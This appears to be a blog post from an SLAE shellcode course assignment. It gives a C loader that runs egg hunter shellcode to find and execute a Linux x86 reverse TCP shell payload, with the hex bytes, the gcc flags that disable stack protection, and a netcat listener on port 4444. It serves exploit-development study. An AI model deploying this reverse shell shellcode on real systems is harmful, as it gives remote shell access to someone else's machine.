 Utilizing Egg Hunter Shellcode
------------------------------

So in order to actually use this egg hunter shellcode, we will need to create a C program that will actually execute this, along with load our reverse TCP shell shellcode into memory as well.

Editing the C program provided by the SLAE labs, we get the following:


```c
#include <stdio.h>
#include <string.h>

unsigned char egghunter[] = "\x31\xdb\x31\xc9\x31\xd2\xbe\xde\xc0\xad\xde\x66\x81\xca\xff\x0f\x42\x31\xc0\xb0\x21\x8d\x5a\x08\xcd\x80\x3c\xf2\x74\xed\x39\x32\x75\xee\x8d\x5a\x04\x39\x33\x75\xe7\x8d\x53\x04\xff\xe2";
unsigned char shellcode[] = "\xde\xc0\xad\xde\xde\xc0\xad\xde\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb3\x02\xb1\x01\xb2\x06\x66\xb8\x67\x01\xcd\x80\x89\xc3\x68\x7f\x01\x01\x01\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\xb2\x10\x66\xb8\x6a\x01\xcd\x80\x31\xc9\xb1\x03\x31\xc0\xb0\x3f\x49\xcd\x80\x41\xe2\xf6\x31\xc0\x31\xd2\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80";

int main(void)
{
    printf("Egg hunter length: %d\n", strlen(egghunter));
    printf("Shellcode length: %d\n", strlen(shellcode));

    void (*s)() = (void *)egghunter;
    s();

    return 0;
}
```

This creates a variable for our egg hunter shellcode, obtained using `objdump` on the compiled binary (compilation and `objdump` usage shown in previous blogs) as well as a variable for the `objdump` output from the reverse TCP shell assignment in the previous blog.

It then prints out the length of the egg hunter shellcode as well as our reverse TCP shellcode and then executes it.

As you can see at the beginning of the `shellcode` variable, it contains `\xde\xc0\xad\xde\xde\xc0\xad\xde`. This is `deadc0dedeadc0de` in Little Endian format. So when the egg hunter shellcode executes, if it finds the two instances of our egg, it will the execute the shellcode after the eggs. 

Now let's compile this C program and execute it.


```sh
anubis@ubuntu:~/SLAE/Assignment_3$ gcc -fno-stack-protector -z execstack egg.c -o egghunteranubis@ubuntu:~/SLAE/Assignment_3$ 
```

Now to execute the `egghunter` binary and set up a listening shell on port `4444` which we configured in our shellcode in the previous assignment.


```sh
anubis@ubuntu:~/SLAE/Assignment_3$ nc -nvlp 4444
Listening on [0.0.0.0] (family 0, port 4444)
```

